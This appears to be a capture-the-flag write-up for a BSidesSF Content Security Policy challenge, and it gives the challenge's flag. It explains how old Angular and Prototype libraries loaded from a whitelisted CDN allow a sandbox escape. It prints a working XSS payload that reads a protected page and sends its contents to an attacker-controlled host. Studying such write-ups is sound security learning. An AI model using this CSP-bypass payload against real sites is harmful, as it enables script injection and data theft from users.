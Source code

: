 **Challenge**: https://csp-2-f692634b.challenges.bsidessf.net/

CSP Evaluator: https://csp-evaluator.withgoogle.com/
- Interesring `script-src`

The challenge page contains a whitelist including `cdnjs.cloudflare.com`. Thus, we can import any library from this CDN.

To solve this challenge we will use a well-known technique, which is based on import vulnerable libraries.

The payload below imports the Angular framework 1.0.1, which allows us to bypass CSP. Then, it is imported the prototype 1.7.2 library to make Angular sandbox escape, because with only Angular is not possible to execute arbitrary JS code.

```javascript
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.min.js"></script>

<div ng-app ng-csp>
<script src="//cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.min.js"></script>
{{$on.curry.call().eval("function reqListener () {window.location='<Your Host>/?a='+btoa(this.responseText);};oReq = new XMLHttpRequest();oReq.onload = reqListener;oReq.open('get', 'csp-two-flag', true);oReq.send();")}}

</div>
```

Edit the paylaod in `window.location` with your host.

Reference: https://blog.0daylabs.com/2016/09/09/bypassing-csp/

**Flag**: CTF{Can_Still_Pwn}
